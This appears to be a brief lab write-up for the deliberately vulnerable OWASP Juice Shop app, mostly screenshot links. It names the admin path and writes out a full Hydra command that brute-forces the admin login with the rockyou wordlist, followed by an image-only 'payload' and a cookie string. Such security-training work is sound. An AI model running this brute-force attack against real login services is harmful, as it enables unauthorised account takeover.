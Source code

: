 1- The admin path (https://juiceshop.herokuapp.com/#/administration)

![1](https://github.com/user-attachments/assets/f91dcc9a-6021-4f38-900f-5622a5d09f1e)

2-(hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F


![2](https://github.com/user-attachments/assets/baf1599e-4d43-477c-b2bb-3893bbdaef7b)


3- this is the payload     ![Capture2](https://github.com/user-attachments/assets/f18f6bff-86d9-453f-a532-7b80cb1c9656)



![3](https://github.com/user-attachments/assets/c5f49dfa-79d9-4c9d-a00a-07bbb9048728)



4-The cookie: (language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss)



![Capture](https://github.com/user-attachments/assets/3989a1c8-5807-432e-91e3-98d2e09b8209)
